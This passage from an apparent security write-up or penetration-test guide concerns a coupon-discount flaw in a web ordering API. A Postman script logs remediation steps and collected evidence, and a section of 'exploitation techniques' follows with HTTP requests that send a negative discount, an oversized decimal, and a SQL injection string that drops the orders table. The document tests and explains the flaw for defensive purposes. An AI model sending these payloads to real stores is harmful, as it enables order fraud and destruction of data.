 ```javascript
    }
    
    console.log("\n🛡️ IMMEDIATE ACTIONS REQUIRED:");
    console.log("1. Implement server-side discount validation");
    console.log("2. Remove client-controlled discount values");
    console.log("3. Add audit logging for all coupon applications");
    console.log("4. Implement rate limiting");
    
    console.log("\n⚠️ EVIDENCE COLLECTED:");
    console.log("- CSRF Token:", pm.environment.get("CSRF_TOKEN"));
    console.log("- Malicious Discount:", pm.environment.get("MALICIOUS_DISCOUNT"));
    console.log("- Order ID:", pm.environment.get("FRAUDULENT_ORDER_ID"));
});
```

## 🎯 **ADVANCED EXPLOITATION TECHNIQUES**

### **Technique 1: Negative Discount (Profit)**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json

{
    "coupon_code": "FASTFOOD10",
    "discount": -1000000
}
```

### **Technique 2: Decimal Precision Attack**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json

{
    "coupon_code": "FASTFOOD10",
    "discount": 999999999.99
}
```

### **Technique 3: String Injection**
```http
POST {{BASE_URL}}/coupon/apply
Content-Type: application/json

{
    "coupon_code": "FASTFOOD10",
    "discount": "999999999; DROP TABLE orders; --"
}
```

## 🔍 **MONITORING & DETECTION**
